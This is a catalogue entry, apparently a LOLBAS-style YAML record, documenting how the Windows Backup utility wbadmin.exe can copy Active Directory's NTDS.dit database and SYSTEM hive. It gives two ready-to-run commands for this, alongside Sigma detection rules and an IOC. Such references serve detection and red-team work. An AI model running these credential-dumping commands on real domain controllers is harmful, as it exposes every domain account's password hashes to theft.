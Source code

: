 ```yaml
---
Name: wbadmin.exe
Description: Windows Backup Administration utility
Author: Chris Eastwood
Created: 2024-04-05
Commands:
  - Command: wbadmin start backup -backupTarget:{PATH_ABSOLUTE:folder} -include:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -quiet
    Description: Extract NTDS.dit and SYSTEM hive into backup virtual hard drive file (.vhdx)
    Usecase: Snapshoting of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
  - Command: wbadmin start recovery -version:<VERSIONIDENTIFIER> -recoverytarget:{PATH_ABSOLUTE:folder} -itemtype:file -items:C:\Windows\NTDS\NTDS.dit,C:\Windows\System32\config\SYSTEM -notRestoreAcl -quiet
    Description: Restore a version of NTDS.dit and SYSTEM hive into file path. The command `wbadmin get versions` can be used to find version identifiers.
    Usecase: Dumping of Active Directory NTDS.dit database
    Category: Dump
    Privileges: Administrator, Backup Operators, SeBackupPrivilege
    MitreID: T1003.003
    OperatingSystem: Windows Server
Full_Path:
  - Path: C:\Windows\System32\wbadmin.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c7998c92b3c5f23ea67045bee8ee364d2ed1a775/rules/windows/process_creation/proc_creation_win_wbadmin_dump_sensitive_files.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c7998c92b3c5f23ea67045bee8ee364d2ed1a775/rules/windows/process_creation/proc_creation_win_wbadmin_restore_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c7998c92b3c5f23ea67045bee8ee364d2ed1a775/rules/windows/process_creation/proc_creation_win_wbadmin_restore_sensitive_files.yml
  - IOC: wbadmin.exe command lines containing "NTDS" or "NTDS.dit"
Resources:
  - Link: https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
---
```

